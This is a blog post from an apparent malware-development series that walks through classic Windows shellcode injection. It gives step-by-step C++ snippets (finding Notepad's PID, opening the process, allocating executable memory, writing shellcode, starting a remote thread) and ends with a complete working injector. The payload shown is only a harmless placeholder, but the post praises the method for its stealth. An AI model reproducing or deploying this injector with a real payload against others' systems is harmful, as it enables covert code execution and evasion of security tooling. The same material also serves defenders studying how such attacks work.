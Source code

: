 ```yaml
---
title: "Process Injection: Classic Shellcode Injection"
date: 2025-06-14 12:22:22
categories: [Malware Development, Process Injection]  
tags: [windows, shellcode, injection, process-injection, cpp]
---
```


Welcome to another post in the Malware Development series. In this article, we’ll break down **Classic Shellcode Injection**—one of the most fundamental and widely used process injection techniques. We’ll explain each step in detail, describe what’s happening under the hood, and provide clear C code samples along the way. At the end, you’ll find a full working example.

---

## What is Classic Shellcode Injection?

Classic shellcode injection is the process of injecting raw, position-independent code (shellcode) into the memory of another running process and then executing it. Shellcode is typically a small, handcrafted assembly payload designed to perform a specific action, such as spawning a shell or downloading a file. Unlike PE injection, shellcode is just a sequence of CPU instructions with no headers or sections[5](https://rioasmara.com/2025/05/30/shellcode-the-art-of-in-memory-code-injection-a-deep-dive-for-security-enthusiasts/)[6](https://redfoxsec.com/blog/process-injection-harnessing-the-power-of-shellcode/).

---

## Why Use Shellcode Injection?

- **Stealth:** The injected code never appears as a file on disk.
    
- **Simplicity:** The technique is straightforward and effective.
    
- **Flexibility:** Works with any process you have access to, and can execute arbitrary code.
    

---

## Step-by-Step Classic Shellcode Injection

## 1. Locate the Target Process

**Description:**  
First, you need to identify the process you want to inject into. This could be any running process—commonly something benign like `notepad.exe` or `explorer.exe`. You can enumerate processes using APIs like `CreateToolhelp32Snapshot` or, for demonstration, use `FindWindow` to get a PID by window name.

**Sample Code:**
```Cpp
// Example: Find the PID of Notepad by its window title
HWND hwnd = FindWindowW(L"Notepad", NULL);
DWORD targetPID = 0;
if (hwnd) {
    GetWindowThreadProcessId(hwnd, &targetPID);
}
if (targetPID == 0) {
    printf("Target process not found.\n");
    exit(1);
}

```


---

## 2. Obtain a Handle to the Target Process

**Description:**  
With the PID in hand, you need to open the process with sufficient privileges to allocate memory, write to it, and create threads.

**Sample Code:**
```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    targetPID
);
if (hProcess == NULL) {
    printf("OpenProcess failed. Error: %d\n", GetLastError());
    exit(1);
}

```

---

## 3. Allocate Memory in the Target Process

**Description:**  
You must allocate a memory region in the target process that is large enough for your shellcode and marked as executable. This is done with `VirtualAllocEx`.

**Sample Code:**
```cpp
unsigned char shellcode[] = { 0x90, 0x90, 0x90, 0xCC, 0xC3 }; // Example shellcode (NOPs + INT3 + RET)
SIZE_T shellcodeSize = sizeof(shellcode);

LPVOID remoteMem = VirtualAllocEx(
    hProcess,
    NULL,
    shellcodeSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
if (remoteMem == NULL) {
    printf("VirtualAllocEx failed. Error: %d\n", GetLastError());
    CloseHandle(hProcess);
    exit(1);
}

```
---

## 4. Write the Shellcode to the Allocated Memory

**Description:**  
Now, copy your shellcode from your process into the target process’s memory using `WriteProcessMemory`.

**Sample Code:**

```cpp
if (!WriteProcessMemory(hProcess, remoteMem, shellcode, shellcodeSize, NULL)) {
    printf("WriteProcessMemory failed. Error: %d\n", GetLastError());
    VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    exit(1);
}
```

---

## 5. Execute the Injected Shellcode

**Description:**  
Finally, create a new thread in the target process that starts execution at the address of your shellcode. This is done with `CreateRemoteThread`.

**Sample Code:**
```cpp
HANDLE hThread = CreateRemoteThread(
    hProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)remoteMem,
    NULL,
    0,
    NULL
);
if (hThread == NULL) {
    printf("CreateRemoteThread failed. Error: %d\n", GetLastError());
    VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    exit(1);
}
printf("Shellcode injected and thread started!\n");

````

---

## Full Working Example

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
    // 1. Find Notepad PID (for demo)
    HWND hwnd = FindWindowW(L"Notepad", NULL);
    DWORD targetPID = 0;
    if (hwnd) {
        GetWindowThreadProcessId(hwnd, &targetPID);
    }
    if (targetPID == 0) {
        printf("Target process not found.\n");
        return 1;
    }

    // 2. Open target process
    HANDLE hProcess = OpenProcess(
        PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
        FALSE,
        targetPID
    );
    if (hProcess == NULL) {
        printf("OpenProcess failed. Error: %d\n", GetLastError());
        return 1;
    }

    // 3. Allocate memory for shellcode
    unsigned char shellcode[] = { 0x90, 0x90, 0x90, 0xCC, 0xC3 }; // Example shellcode
    SIZE_T shellcodeSize = sizeof(shellcode);

    LPVOID remoteMem = VirtualAllocEx(
        hProcess,
        NULL,
        shellcodeSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    if (remoteMem == NULL) {
        printf("VirtualAllocEx failed. Error: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // 4. Write shellcode to remote process
    if (!WriteProcessMemory(hProcess, remoteMem, shellcode, shellcodeSize, NULL)) {
        printf("WriteProcessMemory failed. Error: %d\n", GetLastError());
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // 5. Create remote thread to execute shellcode
    HANDLE hThread = CreateRemoteThread(
        hProcess,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)remoteMem,
        NULL,
        0,
        NULL
    );
    if (hThread == NULL) {
        printf("CreateRemoteThread failed. Error: %d\n", GetLastError());
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    printf("Shellcode injected and thread started!\n");

    // Cleanup
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return 0;
}

```
---

## Conclusion

Classic shellcode injection is the foundation of many process injection techniques. By following these steps—finding a target, opening it, allocating memory, writing shellcode, and creating a remote thread—you can execute arbitrary code in another process’s context. This method is simple, effective, and forms the basis for more advanced injection strategies
